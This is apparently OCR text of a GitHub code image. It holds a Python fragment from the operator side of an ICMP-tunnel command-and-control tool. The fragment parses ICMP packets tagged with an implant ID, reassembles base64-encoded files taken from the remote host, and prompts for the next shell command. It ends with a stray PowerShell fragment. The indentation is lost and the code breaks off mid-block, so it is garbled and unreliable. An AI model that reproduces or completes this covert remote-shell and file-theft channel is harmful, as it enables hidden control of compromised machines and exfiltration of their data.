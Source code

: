 ```python

data = icmppacket.get_data_as_string()

if len(data) > 0:

#print("DATA: "+data)

recv_uid = data[:8].strip()

if recv_uid == UID:

if data[8:12] == '[P$]':

if DOWNLOAD_filename and RECEIVED:

#print("DOWNLOAD BUFFER: "+download_buffer)

try:

decoded = base64.b64decode(download_buffer)

except:

decoded = ""

pass

with open(DOWNLOAD_filename, "wb") as f:

f.write(decoded)

f.close()

with open(DOWNLOAD_filename, 'rb') as f:

md5sum = hashlib.md5(f.read()).hexdigest()

print("MD5 hash of downloaded file "+DOWNLOAD_filename+": "+md5sum)

print("*** DOWNLOAD COMPLETED ***")

DOWNLOAD_filename = ""

download_buffer = ""

if RECEIVED:

cmd = raw_input(data[8:])

clear_buffer(sock)

RECEIVED = False

else:

RECEIVED = True

else:

RECEIVED = True

if DOWNLOAD_filename:

```

[Text.Encoding]: :ASCII)) .ReadToEnd() ;"